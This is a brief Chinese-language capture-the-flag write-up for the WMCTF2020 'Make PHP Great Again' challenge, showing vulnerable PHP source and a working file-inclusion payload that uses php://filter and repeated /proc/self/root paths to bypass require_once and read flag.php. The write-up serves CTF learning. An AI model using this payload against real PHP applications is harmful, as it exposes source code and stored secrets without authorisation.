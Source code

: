 ![51-3.png](51-3.png)

## [WMCTF2020] Make PHP Great Again

### 题解

点进来是一段源码:

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

- `require_once` 将包含其后的文件, 但会检查是否有重复包含, 只会包含一次, 那么这里的解题关键应该在于, 如何 **绕过这个限制**;

> 原理: [require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

payload:

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```
